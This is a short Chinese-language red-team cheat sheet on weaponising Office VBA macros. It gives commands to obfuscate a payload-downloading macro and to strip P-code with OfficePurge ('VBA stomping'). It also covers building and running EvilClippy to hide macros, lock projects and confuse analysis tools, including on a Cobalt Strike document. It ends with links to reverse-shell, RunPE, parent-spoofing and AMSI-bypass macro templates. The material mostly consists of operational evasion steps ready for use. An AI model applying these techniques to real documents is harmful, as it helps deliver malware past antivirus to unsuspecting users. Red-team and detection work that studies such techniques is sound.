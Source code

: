 ### VBA混淆

```ps1
# https://www.youtube.com/watch?v=L0DlPOLx2k0
$ git clone https://github.com/bonnetn/vba-obfuscator
$ cat example_macro/download_payload.vba | docker run -i --rm bonnetn/vba-obfuscator /dev/stdin
```

### VBA清除

**VBA踩踏**：这种技术允许攻击者从Office文档中移除压缩的VBA代码，并且仍然可以执行恶意宏，而不使用许多AV引擎依赖检测的VBA关键词。==移除P-code。

:warning: VBA踩踏对Excel 97-2003工作簿(.xls)格式无效。

#### OfficePurge

* https://github.com/fireeye/OfficePurge/releases/download/v1.0/OfficePurge.exe

```powershell
OfficePurge.exe -d word -f .\malicious.doc -m NewMacros
OfficePurge.exe -d excel -f .\payroll.xls -m Module1
OfficePurge.exe -d publisher -f .\donuts.pub -m ThisDocument
OfficePurge.exe -d word -f .\malicious.doc -l
```

#### EvilClippy

> Evil Clippy使用OpenMCDF库来操作CFBF文件。
> Evil Clippy可以很好地与Mono C#编译器一起编译，并在Linux、OSX和Windows上进行了测试。
> 如果你想手动操作CFBF文件，那么FlexHEX是最佳编辑器之一。

```ps1
# OSX/Linux
mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 
# Windows
csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 

EvilClippy.exe -s fake.vbs -g -r cobaltstrike.doc
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
EvilClippy.exe -s fakecode.vba -t 2013x64 macrofile.doc

# 使宏代码无法访问的方法是将项目标记为锁定且不可查看：-u
# Evil Clippy可以通过-r标志混淆pcodedmp和许多其他分析工具。
EvilClippy.exe -r macrofile.doc
```

### VBA - 进攻性安全模板

* 反弹Shell VBA - https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba
* 进程转储器 - https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* RunPE - https://github.com/itm4n/VBA-RunPE
* 欺骗父级 - https://github.com/py7hagoras/OfficeMacro64
* AMSI绕过 - https://github.com/outflanknl/Scripts/blob/master/AMSIbypasses.vba
* amsiByPassWithRTLMoveMemory - https://gist.github.com/DanShaqFu/1c57c02660b2980d4816d14379c2c4f3
* 使用欺骗父级的VBA宏生成进程 - https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba
